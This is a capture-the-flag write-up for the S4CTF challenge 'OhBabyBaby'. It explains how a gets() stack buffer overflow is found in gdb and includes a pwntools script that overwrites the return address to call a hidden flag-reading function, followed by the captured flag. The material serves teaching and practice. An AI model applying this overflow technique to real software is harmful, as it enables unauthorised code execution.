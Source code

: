 # OhBabyBaby


## Description
If you don't solve this, Dennis Ritchie will be really heartbroken :(
nc 185.14.184.242 12990

## Files provided
A zip containing [binary](https://github.com/TheRealOddCoder/writeups2021/S4CTF/ohbabybaby/ohbabybaby) and [source](https://gist.github.com/TheRealOddCoder/dda04fa1d757f91bb0d5ff7f0c1fa673) is provided

## Writeup
Looking at the source, we can see there is a **ultimatePrize()** that reads **flag.txt**. But this function is never called.
Also, there is **gets()** in **prize()**.

Runnning the binary, we encounter a two scanf() and the memory location of the flag function is displayed. So, to get the flag we need to overflow the buffer in prize() and **rewrite the instruction pointer (rip)** to point to the address of ultimatePrize().
<br/><br/>


![image](https://user-images.githubusercontent.com/42334661/115984164-7e53e880-a55a-11eb-96c8-45c2407a1ba4.png)
<br/><br/>

The buffer size is 64. In gdb, I passed 80 bytes of 'A' to check for segmentation fault. We see a sigsegv and **rip is overwritten** 
<br/><br/>

![sigsegv](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/Screeenshots/sigsegv.png)
<br/><br/>

both **$rbp** and **$rip** are overwritten with **8 bytes** and **6 bytes** respectively. Of the **80 bytes** sent, `14bytes` are overwritten in `rbp` and `rip` meaning that buffer takes up `66 bytes`. Of the `66 bytes`, **2 bytes** are used up in *scanf()*.
<br/><br/>
This is what I thought initially.
- buffer --> 64+2 bytes
- $rbp --> 8 bytes $rip --> 6 bytes

But boy I was wrong. 
<br/>
After a few trial and error, **$rip was overwritten** by anything after 72 bytes of data. That is,
- buffer --> 64 bytes
- $rbp --> 8 bytes
<br/>
To check this, I passed in *72 bytes of 'A' and 2 bytes of 'B'*. And rip was overwritten by *'BB'* (the 73rd and 74th byte in input)


![sigsev](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/Screeenshots/sigsegv_2.png)
<br/><br/>

## Payload
Let's construct a payload with `pwntools` locally
<br/><br/>

```
from pwn import *

bof = b"A"*72
conn = process('./ohbabybaby')
data = conn.recvuntil(".....................................Tap Tap to see your prize!!....................................\n").decode("utf-8")
print(data)
conn.sendline("A")   # so that we can see the address of ultimatePrize
data = conn.recvuntil("............................................Did you enjoy?..........................................").decode("utf-8")
conn.recvuntil("\n")
print(data)
address = "0x"+data.split("0x")[1][:12]
print(address)
conn.recvline()
#conn.sendline(b"A"*72 + p64(int(address, 16)))

try:
    conn.sendline(bof + p64(int(address, 16)))
    print(conn.recvall().decode("utf-8"))
except:
    print("error!\n")
    print(conn.recvall().decode("utf-8"))
```
<br/><br/>

![flag](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/Screeenshots/flag.png)
<br/><br/>
The flag function is accessed!!
Modifying the code to connect to remote address, we get the flag
<br/><br/>
![flag](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/Screeenshots/Screenshot%20from%202021-04-25%2001-30-36.png)
<br/><br/>

## Flag
S4CTF{W311_D0n3_f0r_th3_3xpl0it_Vuln3rability_i5_aws0m3!!}
